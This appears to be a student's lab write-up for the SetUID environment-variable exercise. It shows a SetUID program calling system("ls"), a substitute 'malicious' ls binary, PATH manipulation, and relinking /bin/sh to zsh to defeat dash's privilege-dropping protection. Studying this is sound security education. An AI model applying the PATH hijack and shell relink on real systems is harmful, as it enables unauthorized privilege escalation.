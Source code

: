 ```
int main(){
    system("ls");
    return 0;
}
```

We ran the following malicious.c code and called it <kbd>ls</kbd>.

```
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>

int
main() {
  fputs("This is a malicious code\n", stdout);
  execl("/bin/whoami", "", (char *) NULL); // user, root
  return 0; 
}
```

We then, manipulated the PATH so using the ls Linux command, our malicous code would run instead.

![](https://i.imgur.com/vopwCXi.png)


As we can see, even though task6 is a SetUID program, we do not have root privileges. 

Using the following commands to link /bin/sh to /bin zsh <kbd> sudo ln -sf /bin/zsh /bin/sh </kbd> we can run our malicious code without the countermeasure in /bin/dash as explained in the Note section in the Environment Variable and Set-UID Program Lab PDF.

![](https://i.imgur.com/kVCCWiH.png)

---

* Updated on 15/10/2022

